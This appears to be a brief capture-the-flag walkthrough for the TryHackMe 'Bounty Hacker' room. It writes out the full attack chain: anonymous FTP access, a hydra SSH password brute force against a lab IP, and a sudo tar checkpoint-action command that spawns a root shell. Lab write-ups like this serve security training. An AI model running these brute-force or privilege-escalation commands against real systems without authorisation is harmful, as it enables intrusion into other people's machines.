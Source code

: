﻿# Bounty Hacker
https://tryhackme.com/room/cowboyhacker
- `nmap` shows 3 open ports
- `nmap -A -p21,22,80 <ip>` shows that anonymous log in is possible on ftp, even though most of the times the directory listing timed out. When it worked I could see there were 2 files there
- `ftp`
- `open <ip>` to  connect to the machine, `anonymous` as login and it connects
- `dir` to see what's in there
- `recv <filename>` to download
-  One of the files looks like a password list, the other one is a message signed by 'lin'
- Try to force through ssh using lin as login and going through the password list. That's done with hydra: `hydra -l lin -P locks.txt ssh://10.10.170.57`
- Password found, login with ssh as lin
- `sudo -l` to see what commands are allowed: `tar` is allowed
- quick google on how to sudo escalate through tar: 

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

... and done.
